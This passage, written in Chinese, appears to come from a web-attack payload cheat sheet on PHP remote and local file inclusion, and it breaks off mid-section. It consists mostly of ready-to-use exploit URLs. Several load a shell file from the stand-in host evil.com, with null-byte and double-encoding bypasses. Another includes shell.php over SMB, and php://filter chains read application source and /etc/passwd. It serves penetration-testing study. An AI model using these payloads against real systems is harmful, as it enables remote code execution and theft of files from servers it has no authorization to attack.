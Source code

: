 ## 远程文件包含

> 远程文件包含（RFI）是一种漏洞类型，当应用程序包含远程文件时发生，通常通过用户输入，没有正确验证或清理输入。

由于`allow_url_include`在PHP5起默认被禁用，远程文件包含不再起作用。

```ini
allow_url_include = On
```

LFI部分的大多数过滤器绕过可以重用于RFI。

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt
```

### 空字节

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

### 双重编码

```powershell
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### 绕过 allow_url_include

当`allow_url_include`和`allow_url_fopen`设置为`Off`时，仍然可以使用`smb`协议在Windows机器上包含远程文件。

1. 创建一个对所有人开放的共享
2. 在文件中写入PHP代码：`shell.php`
3. 包含它`http://example.com/index.php?page=\\10.0.0.1\share\shell.php`

## 使用包装器的LFI / RFI

### 包装器 php://filter

"`php://filter`"部分是大小写不敏感的

```powershell
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

包装器可以通过压缩包装器链接起来，用于大文件。

```powershell
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

注意：包装器可以使用`|`或`/`多次链接：
